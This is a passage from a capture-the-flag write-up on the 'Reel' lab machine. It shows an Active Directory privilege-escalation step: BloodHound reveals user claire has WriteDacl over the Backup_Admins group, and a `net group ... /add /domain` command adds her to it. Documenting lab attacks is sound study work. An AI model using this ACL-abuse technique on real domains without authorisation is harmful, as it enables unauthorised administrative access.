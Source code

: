 <figure><img src="../../../.gitbook/assets/image (3812).png" alt=""><figcaption></figcaption></figure>

### WriteDacl --> Admin Creds

The user `claire` is part of another group.

```
claire@REEL C:\Users\claire>net user  claire                                                 
User name                    claire                                                          
Full Name                    Claire Danes                                                    
Comment                                                                                      
User's comment                                                                               
Country/region code          000 (System Default)                                            
Account active               Yes                                                             
Account expires              Never                                                           

Password last set            6/16/2023 3:16:53 AM                                            
Password expires             Never                                                           
Password changeable          6/17/2023 3:16:53 AM                                            
Password required            Yes                                                             
User may change password     Yes                                                             

Workstations allowed         All                                                             
Logon script                                                                                 
User profile                                                                                 
Home directory                                                                               
Last logon                   6/16/2023 3:18:04 AM                                            

Logon hours allowed          All                                                             

Local Group Memberships      *Hyper-V Administrator                                          
Global Group memberships     *Domain Users         *MegaBank_Users                           
                             *DR_Site              *Restrictions
```

Checking back on the Bloodhound output, we see that `claire` has WriteDacl permissions over the Backup Admins group:

<figure><img src="../../../.gitbook/assets/image (360).png" alt=""><figcaption></figcaption></figure>

This means that the user `claire` can modify the ACLs of the group, which includes adding and removing users.&#x20;

```
claire@REEL C:\Users\claire>net group Backup_Admins claire /add /domain                      
The command completed successfully.

claire@REEL C:\Users\claire>net group Backup_Admins                                          
Group name     Backup_Admins                                                                 
Comment                                                                                      

Members                                                                                      

-------------------------------------------------------------------------------              
claire                   ranj                                                                
The command completed successfully. 
```
